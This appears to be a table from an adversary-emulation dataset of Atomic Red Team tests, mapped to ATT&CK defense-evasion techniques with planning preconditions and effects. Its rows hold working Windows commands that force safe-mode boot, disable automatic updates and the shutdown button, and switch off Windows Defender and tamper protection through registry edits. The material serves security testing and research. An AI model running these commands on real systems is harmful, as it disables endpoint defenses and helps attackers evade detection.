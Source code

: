 | 2a78362e-b79a-4482-8e24-be397bce4d85 | Safe Mode Boot | \['T1562.009'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Impair Defenses: Safe Mode Boot'\] | Allows adversaries to abuse safe mode to disable endpoint defenses that may not start with limited boot | {'executor': 'Elevated Command Prompt Executor', 'command': 'bcdedit /set safeboot network'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(endpoint_defense_disabled ?target - host)'\] |
| 01b20ca8-c7a3-4d86-af59-059f15ed5474 | Disable Windows OS Auto Update | \['T1112'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Modify Registry'\] | Disable Auto Update Windows OS feature. Redline is using this as part of its defense evasion.<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'reg add "HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\WindowsUpdate\\AU" /v "NoAutoUpdate" /t REG_DWORD /d 1 /f\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(auto_update_disabled ?target - host)'\] |
| 6e0d1131-2d7e-4905-8ca5-d6172f05d03d | Disable Windows Shutdown Button | \['T1112'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Modify Registry'\] | Modify the registry of the currently logged in user using reg.exe via cmd console to disable the windows shutdown button.<br>See how ransomware abuses this technique- https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/ransom.msil.screenlocker.a/<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'reg add "HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System" /v shutdownwithoutlogon /t REG_DWORD /d 0 /f\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(shutdown_button_disabled ?target - host)'\] |
| 1f6743da-6ecc-4a93-b03f-dc357e4b313f | Tamper with Windows Defender Registry - Reg.exe | \['T1562.001'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Impair Defenses: Disable or Modify Tools'\] | Disable Windows Defender by tampering with windows defender registry using the utility "reg.exe"<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'reg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableBehaviorMonitoring" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableIntrusionPreventionSystem" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableOnAccessProtection" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableRoutinelyTakingAction" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableScanOnRealtimeEnable" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableScriptScanning" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Reporting" /v "DisableEnhancedNotifications" /t REG_DWORD /d "1" /f >NUL 2>nul \nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\SpyNet" /v "DisableBlockAtFirstSeen" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\SpyNet" /v "SpynetReporting" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\MpEngine" /v "MpEnablePus" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows Defender Security Center\\App and Browser protection" /v "DisallowExploitProtectionOverride" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\SOFTWARE\\Microsoft\\Windows Defender\\Features" /v "TamperProtection"  /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\software\\microsoft\\windows defender\\spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\Software\\Microsoft\\Windows Defender" /v "PUAProtection" /t REG_DWORD /d "0" /f >NUL 2>nul\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(windows_defender_disabled ?target - host)'\] |